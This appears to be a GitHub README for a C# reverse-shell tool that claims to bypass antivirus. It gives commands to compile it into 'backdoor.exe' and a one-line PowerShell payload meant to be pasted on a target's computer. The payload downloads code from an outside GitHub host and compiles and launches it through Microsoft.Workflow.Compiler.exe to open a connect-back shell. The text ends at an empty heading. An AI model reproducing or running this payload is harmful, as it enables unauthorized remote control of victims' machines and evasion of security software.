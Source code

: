 # Reverse shell C# bypassing AV solutions  

## Compile code to .exe
To generate only a executable file, compile the script "reverse_shell_to_exe.cs" like that :  
sudo apt install mono-complete  
mcs -out:backdoor.exe reverse_shell_to_exec.cs  
mono backdoor.exe  


## Live compiling via Powershell 
To get a reverse shell via a command line, copy paste the following payload directly on the target's computer   
(it will download the two files from github, compile them with the legit compiler of Windows and launch the connect back)  
  
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/S-crow/reverseShell/master/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/S-crow/reverseShell/master/reverse_shell.cs', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell


## Full scenario of hacking 




